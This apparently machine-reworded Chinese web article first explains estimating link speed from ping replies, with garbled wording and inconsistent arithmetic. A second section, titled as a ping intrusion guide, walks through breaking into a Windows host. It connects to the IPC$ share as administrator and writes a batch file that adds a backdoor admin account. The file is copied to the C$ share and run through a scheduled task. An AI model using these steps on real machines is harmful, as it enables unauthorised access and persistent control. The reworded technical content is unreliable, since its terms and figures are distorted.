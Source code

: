 怎样用Ping命令来判定一条链路的速率？

Ping这个命令不仅可以检测网路的连通和检查故障以外，还有一个比较有趣的用途，那就是可以借助它的一些返回数据，来计算你跟某台主机之间的速率是多少字节每秒我们先来瞧瞧它有这些返回数据。

(Pinging202.105.136.105with32bytesofdata:Replyfrom202.105.136.105:bytes=32time=590msTTL=114Replyfrom202.105.136.105:bytes=32time=590msTTL=114Replyfrom202.105.136.105:bytes=32time=590msTTL=114Replyfrom202.105.136.105:bytes=32time=601msTTL=114Pingstatisticsfor202.105.136.105:Packets:Sent=4,Received=4,Lost=0(0%loss),Approximateroundtriptimesinmilli-seconds:Minimum=590ms,Maximum=601ms,Average=593ms在事例中“bytes=32”表示ICMP报文中有32个字节的测试数据（这是计算速率的关键数据) ，“time=590ms”是往返时间。

如何计算链路的速率呢？举个反例吧。我们把A和B之间设置为PPP链路。

(从前面的PING事例可以注意到，默认情况下发送的ICMP报文有32个字节。不仅这32个字节外再加上20个字节的IP首部和8个字节的ICMP首部，整个IP数据报文的总宽度就是60个字节（由于IP和ICMP是Ping命令的主要使用合同，所以整个数据报文要加上它们) 。另外在使用Ping命令时还使用了另一个合同进行传输，那就是PPP合同（点对点合同），所以在数据的开始和结尾再加上8个字节。在传输过程中，因为每位字节富含8bit数据、1bit起始位和1bit结束位，因而传输速度是每位字节2.98ms。由此我们可以恐怕须要405ms。即68*2.98*2（乘2是由于我们还要估算它的往返时间）。我们来测试一下33600b/s的链路：

Pinging202.105.36.125with32bytesofdata:Replyfrom202.105.36.125:bytes=32time=415msTTL=114Replyfrom202.105.36.125:bytes=32time=415msTTL=114Replyfrom202.105.36.125:bytes=32time=415msTTL=114Replyfrom202.105.36.125:bytes=32time=421msTTL=114Pingstatisticsfor202.105.36.125:Packets:Sent=4,Received=4,Lost=0(0%loss),Approximateroundtriptimesinmilli-seconds:Minimum=415ms,Maximum=421ms,Average=417ms看是不是差不多啊。^_^

(这儿你们可能要注意到，这计算值跟实际值是有偏差的，为何呢？由于我们如今计算的是一个理论值，还有一些东西我们没有考虑。诸如在网路中的其它干扰，这种干扰主要来之别的计算机。由于在你测试时不可能全部计算机停止使用网路给你做测试，这是不实际的。另外就是传输设备，由于有个别设备如MODEM它在传输时会把数据压缩后再发送，这大大降低了传输时间。这种东西形成的偏差我们是不能避开的，但其数值大概在5%以内我们都可以接受（借助MODEM传输例外) ，并且可以降低偏差的形成。例如把MODEM的压缩功能关掉和在网路没有这么忙碌时进行测试。有时侯偏差是无须去除的。由于我们须要这种偏差跟所求得的理论值进行比较剖析 **ping命令参数**，进而找出网路的缺陷而进行优化。这时测试网路的所有数据包括偏差就会成为我们优化的根据。

还要注意，这些算法在局域网并不适用，由于在局域网中速率十分的快几乎多于1ms，而Ping的最小时间帧率是1ms，所以根本难以用Ping命令来测量速率。假如想测试速率那就要用专门仪器来测量。总的来说，Ping命令是一个在故障检测方面很有用并且很便利的工具，你不应当忽略它的存在。

第二篇：入侵ping命令

netview*.*.*.*查看指定IP主机上的共享

nbtstat-A*.*.*.*得到远程主机的NetBIOS用户名列表

copyserver1.exe*.*.*.*Admin$system32正式当前目录下的Server1.exe复制到对方Admin$共享的System32目录内

构建IPC$联接

事例：netuse192.168.1.60ipc$“”/user:”administrator“查看账号—netuser构建账号—netusernamepasswd/add删掉账号—netusernamepasswd/del断掉联接：

键入“netuse*/del”命令断掉所有的IPC$联接。键入“netuse目标IPIPC$/del”可以删掉指定目标IP的IPC$联接。

实例：构建侧门账号，步骤如下：(1)编撰BAT文件：

打开记事本，输入“netuseremile123456/add”和“netlocalgroupadministratorsemile/add”，之后把文件另存为“hack.bat”,保存在cmd当前默认目录下。(2)与目标主机构建IPC$联接，以192.168.1.60为例：

打开cmd窗口，分别执行命令：

netuse192.168.1.60ipc$”“/user:”administrator“netusez:192.168.1.60C$(3)拷贝bat文件到目标主机：

在cmd窗口输入copyhack.bat192.168.1.60C$，把文件拷贝到目标位置；也可以打开映射驱动器用图形界面直接进行拷贝操作。(4)通过计划任务使远程主机执行hack.bat文件：

首先键入“nettimeIP”查看远程主机的系统时间，再键入“atIPTIMECOMMAND”命令在远程主机上构建计划任务。

参数说明：IP—目标主机IP；TIME—设定计划任务执行的时间；COMMAND—计划任务要执行的命令，这么处为C:hack.bat。
